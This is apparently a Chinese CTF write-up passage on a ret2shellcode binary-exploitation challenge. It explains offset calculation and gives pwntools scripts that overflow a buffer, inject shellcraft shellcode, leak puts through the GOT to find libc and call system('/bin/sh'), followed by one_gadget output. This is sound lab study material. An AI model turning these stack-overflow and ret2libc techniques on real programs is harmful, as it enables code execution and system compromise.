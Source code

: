 这里已知我们可控的地方距离 ebp 的地址，算一下偏移量

```plain
0x148-0x0dc=108
```

所以我们只要写入 112(108+4 ) 个垃圾字节，之后再写想要的地址即可，这也就是 IDA 不可靠的问题

实际利用 gdb 动调才是正确的

先打本地

这里不像 ret2text 一样有后门函数了，这里需要自己构造利用 shellcraft，之后利用上面给到的 strncpy() 函数，我们可以将 shellcode 写入 s 中，之后复制给 buf2，buf2 在 bss 段，而且之前 checksec 发现了 BSS 段 RWX，可读可写可执行，所以就可以执行我们的 shellcode

```plain
from pwn import *
io = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

io.sendline(shellcode.ljust(112,b'A') + p32(buf2_addr))
io.interactive()
```

这道题本地打不通，感觉题目问题，题目在 bss 段没有可执行权限，用 libc 打

```plain
from pwn import *
context(os='linux',arch='i386',log_level='debug')

sh = process("./pwn")
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('./pwn')
puts = elf.got["puts"]
putsp = elf.plt['puts']
shellcode = asm(shellcraft.sh())
buf2_addr = 0x0804A080
sh.recvuntil(b'!!!\n')
#pl=shellcode.ljust(112,b'\x00') + p32(buf2_addr)
#pl=shellcode+b'\x00'*(0x64-len(shellcode)+0x8+4)+p32(0x804A080)
pl = b'a'*112 + p32(putsp) + p32(0x0804852D) + p32(puts)

sh.sendline(pl)
sh.recvuntil(b'bye bye ~')
puts_libc = u32(sh.recv(4))
libcbase = puts_libc - 0x6dc40
print(hex(libcbase))
system = libcbase + libc.sym['system']
binsh = libcbase + 0x0018e363
pl = b'a'*104 + p32(system) +b'aaaa' + p32(binsh)
gdb.attach(sh)
pause()
sh.sendline(pl)
sh.interactive()

'''
0xc9bbb execve("/bin/sh", [ebp-0x2c], esi)
constraints:
  address ebp-0x20 is writable
  ebx is the GOT address of libc
  [[ebp-0x2c]] == NULL || [ebp-0x2c] == NULL
  [esi] == NULL || esi == NULL

0x14482b execl("/bin/sh", eax)
constraints:
  ebp is the GOT address of libc
  eax == NULL
```